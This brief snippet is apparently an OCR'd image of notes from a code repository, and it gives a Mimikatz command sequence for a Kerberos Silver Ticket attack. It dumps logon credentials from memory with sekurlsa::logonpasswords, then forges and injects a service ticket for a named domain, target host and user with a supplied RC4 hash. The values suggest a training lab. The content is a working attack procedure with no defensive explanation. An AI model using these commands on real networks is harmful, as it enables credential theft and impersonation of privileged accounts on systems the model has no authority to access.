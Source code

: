 #Silver Ticket
Extract NTLM Hash of SPN
<br># Launch Mimikatz as Administrator
<br>privilege::debug
<br>sekurlsa::logonpasswords
#Create and Inject Silver Ticket
<br>kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin


